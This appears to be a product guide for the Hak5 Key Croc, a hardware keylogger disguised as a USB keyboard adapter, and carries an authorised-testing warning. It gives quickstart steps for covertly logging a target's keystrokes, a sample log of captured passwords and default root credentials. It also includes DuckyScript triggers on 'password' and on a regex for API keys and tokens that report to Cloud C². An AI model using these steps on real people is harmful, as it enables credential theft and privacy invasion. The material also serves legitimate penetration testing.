

# Key Croc — The Complete Guide

> **一句話定位**：Key Croc 是一台偽裝成鍵盤轉接頭的「智慧型硬體鍵盤側錄器」——它記錄你打下的每個字，而且當你打出特定關鍵字（例如「密碼」、「password」）時，它會自動觸發預載的攻擊 Payload。

The Key Croc looks like a harmless USB keyboard pass-through adapter. Slipped between a keyboard and a computer, it quietly **logs every keystroke** to its internal storage. But it's far more than a logger: using **pattern matching**, it watches the keystroke stream for words of interest (a keyword or a regex) and fires pre-loaded **attack payloads** the moment they match — even cloning the keyboard's hardware IDs so it's indistinguishable from a normal adapter.

It runs DuckyScript **2.0**, which is *interpreted* — payloads run directly from `payload.txt` source, no compilation required. Combined with WiFi + Cloud C², an operator can watch keystrokes, inject keystrokes, and manage payloads from anywhere.

> **⚠️ Authorised testing only.** Keystroke logging is the most privacy-invasive attack in this entire catalogue. Only deploy against your own systems or with explicit, written authorization.

---

## Specs at a glance

| Item | Specification |
|---|---|
| CPU | Quad-core ARM Cortex-A7 @ 1.2 GHz |
| Storage | 8 GB desktop-class SSD |
| Interfaces | USB-A (host-side) + USB-A (keyboard-side) + serial console |
| Wireless | Integrated 2.4 GHz Wi-Fi antenna (802.11 b/g/n) |
| OS | Debian Linux, root shell + SSH |
| Payload language | DuckyScript 2.0 (interpreted), plus Bash |
| Keylogging | Out-of-the-box, zero config — logs to `/root/loot/keystrokes.log` |
| Cloud C² | Supported — stream/inject keystrokes, manage payloads, exfiltrate loot |
| Stealth | LED off while logging; clones keyboard hardware IDs |
| Official docs | https://docs.hak5.org/key-croc |

## Anatomy

| Part | Purpose |
|---|---|
| USB-A (host side) | Goes into the target computer |
| USB-A (keyboard side) | Real keyboard plugs in here (pass-through) |
| Hidden arming button | Press while plugging in → becomes a flash drive |
| RGB LED | Off during keylogging (stealth); lit during setup/attack |
| Serial console | Full root shell for advanced ops |

---

## Data flow



---

## Quickstart — log keystrokes in 30 seconds

### Step 1 — No config needed
The Key Croc logs out of the box. Just:

1. Plug the **host** side into the target computer.
2. Plug a real keyboard into the **keyboard** side.
3. Type. Every keystroke is recorded to `/root/loot/keystrokes.log`.

### Step 2 — Read the loot
Press-and-hold the **hidden arming button** while plugging in (or re-connect after holding it) to turn the Croc into a flash drive, then read the log:

```text
2026-08-21 14:31:02  user typed: root
2026-08-21 14:31:05  user typed: P@ssw0rd
2026-08-21 14:31:10  user typed: https://yupitek.com
```

### Step 3 — SSH in (arming mode)
Set your computer's NIC to `172.16.0.0/24` and:

```bash
ip addr add 172.16.0.2/24 dev eth0
# browse to http://172.16.0.1  (web UI)  or
ssh root@172.16.0.1        # password: hak5croc
```

From here you control WiFi, Cloud C², and payloads.

---

## Pattern-matching payloads — the killer feature

Instead of just logging, tell the Croc to *act* when it sees something:

```text
QUACK STRING hello       # DuckyScript 2.0 drops the classic STRING for QUACK
```

**Example — trigger when a keyword is typed:**

```text
MATCH_STRING password
QUACK STRING (recorded)
```

When the victim types "password" (even with a typo corrected by backspace), the Croc:
1. Triggers the matched payload.
2. Can save keystrokes typed *before* or *after* the match.
3. Fires the payload — which can inject HID keystrokes, pivot the network, or notify Cloud C².

**Example — notify Cloud C² on a match:**

```text
MATCH_REGEX (api[_-]?key|secret|token)
CLOUD_C2 "Keyword of interest typed!"
```

> **You might be asking:** *"How does it match even with backspaces?"* The Croc decodes the keystroke stream in real time, so it understands the typed *result* (handling backspaces) rather than raw keypresses. That's why its language files are monolithic and pre-generated to decode entire keyboards accurately.

---

## Attack modes

| Mode | What it emulates | Used for |
|---|---|---|
| HID | Keyboard | Pass-through + keystroke injection |
| Ethernet | USB network card | Gain network access to the target, bypassing perimeter firewall |
| Storage | Flash drive | Arming, file transfer |
| Serial | Serial device | Crafty attacks on console/embedded systems |

A single payload can combine modes — the Croc can log *and* pivot onto the network at the same time.

---

## Advanced

| Capability | How |
|---|---|
| Cloud C² live view | Stream keystrokes in real time; inject your own from the browser |
| Remote root shell | Cloud C² or SSH → full Debian with `nmap`, `responder`, `impacket`, `metasploit` |
| Network pivot | Emulate USB Ethernet → attacker has an in-network foothold |
| Regex triggers | `MATCH_REGEX` for patterns, not just fixed keywords |
| WiFi | 2.4 GHz antenna connects to C²/network even behind the target's desk |
| Interpreted payloads | Drop `payload.txt` straight in the right folder — no compile |

---

## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| No keystrokes logged | Keyboard not passing through properly, or payload mode | Re-seat the keyboard; check arming vs log state |
| Can't find the arming button | It's hidden | Use a paperclip; press while plugging in |
| `QUACK` not recognized | Using DuckyScript 3.0 commands on a 2.0 device | Key Croc is DuckyScript 2.0 — use `QUACK`, not `STRING` |
| Web UI/SSH unreachable | Wrong subnet | Set NIC to `172.16.0.0/24` and use `172.16.0.1` |
| Cloud C² not connecting | WiFi not configured | Set WiFi in arming mode config; point at your C² server |

---

## Related resources

- [USB Rubber Ducky](/hak5/products/usb-rubber-ducky/) — DuckyScript 3.0 (compiled) concepts
- [Bash Bunny Mark II](/hak5/products/bash-bunny-mark-ii/) — multi-vector USB attacks
- [Malicious Cable Detector](/hak5/products/malicious-cable-detector/) — the defensive tool that finds loggers like this
- [Firmware & Downloads](/hak5/firmware-downloads/) — keycroc payload repo & firmware
- [Troubleshooting Index](/hak5/troubleshooting-index/)
- [Hak5 overview](/hak5/)
